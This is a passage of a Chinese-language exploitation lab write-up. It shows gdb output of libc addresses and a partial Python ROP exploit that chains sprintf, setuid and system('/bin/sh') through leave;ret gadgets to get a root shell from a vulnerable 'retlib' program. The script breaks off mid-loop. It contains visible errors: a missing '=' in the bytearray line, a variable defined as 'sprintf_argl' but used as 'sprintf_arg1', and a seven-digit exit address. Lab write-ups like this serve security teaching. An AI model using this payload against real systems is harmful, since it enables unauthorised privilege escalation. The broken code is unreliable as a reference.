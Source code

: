 为了使攻击更加方便，我们直接使用 ROP。首先获取所需要的 libc 函数地址

```shell
gdb-peda$ p sprintf
$1 = {<text variable, no debug info>} 0xf7e20e40 <sprintf>
gdb-peda$ p setuid
$2 = {<text variable, no debug info>} 0xf7e99e30 <setuid>
gdb-peda$ p system
$3 = {<text variable, no debug info>} 0xf7e12420 <system>
gdb-peda$ p exit
$4 = {<text variable, no debug info>} 0xf7e4f80 <exit>
```

然后 `disas bof` 获取 `bof()` 函数返回地址

<img src="/assets/post/images/return2libc2.webp" alt="return2libc 返回地址" style="width:min(100%,600px);" />

同时我们还有 retlib 打印出的 `bof()` 函数 ebp 位置和 MYSHELL 地址，根据这些修改 exploit.py

```python
## !/usr/bin/python3
import sys

def tobytes (value):
    return (value).to_bytes(4, byteorder= 'little')

content bytearray(0xaa for i in range (24))

sh_addr = 0xffffd3e3
leaveret = 0x565562ce
sprintf_addr = 0xf7e20e40
setuid_addr = 0xf7e99e30
system_addr = 0xf7e12420
exit_addr = 0xf7e4f80
ebp_bof = 0xffffcd58

## setuid()'s 1st argument
sprintf_argl = ebp_bof + 12 + 5*0x20

## a byte that contains 0x00
sprintf_arg2 = sh_addr + len("/bin/sh")

## Use leaveret to return to the first sprintf()
ebp_next = ebp_bof + 0x20
content += tobytes(ebp_next)
content += tobytes(leaveret)
content += b'A' * (0x20 - 2*4)

## sprintf(sprintf_argl, sprintf_arg2)
for i in range(4):
    ebp_next += 0x20
    content += tobytes(ebp_next)
    content += tobytes(sprintf_addr)
    content += tobytes(leaveret)
    content += tobytes(sprintf_arg1)
```